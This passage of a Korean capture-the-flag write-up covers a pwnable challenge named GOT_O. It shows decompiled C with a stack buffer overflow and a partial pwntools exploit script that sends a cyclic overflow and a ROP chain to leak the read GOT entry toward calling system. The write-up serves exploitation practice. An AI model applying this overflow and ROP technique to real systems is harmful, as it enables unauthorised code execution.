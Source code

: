 ```python
```

![](https://user-images.githubusercontent.com/32904385/63650819-c28d5500-c789-11e9-9788-157bbc7f9a3d.png)

**FLAG : `flag{0bfu5c4tOr_C4nT_5T0P_M3}`**

<br />

# Pwnable

## GOT_O

간단한 got overwrite 문제이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  problem();
  write(1, "\n\n", 2u);
  return 0;
}
```

```c
ssize_t problem()
{
  char buf; // [esp+0h] [ebp-18h]

  return read(0, &buf, 0xA0u);
}
```

````c
int win()
{
  return printf("/bin/sh");
}
````

exploit.py

```python
from pwn import *

context.log_level = 'debug'

p = remote('inc0gnito.com',9090)
elf = ELF('./GOT_o')

main = 0x080484a3
win = 0x0804848a
problem = 0x0804846b
read_offset = 0x9ad60 # read - system

payload = cyclic(cyclic_find('haaa'))

rop1 = ROP(elf)
rop1.write(1,elf.got['read'],4)
rop1.call(problem)

log.info('Stage1')

p.sendline(payload + str(rop1))
sleep(0.1)
read_got = u32(p.recv(4))

```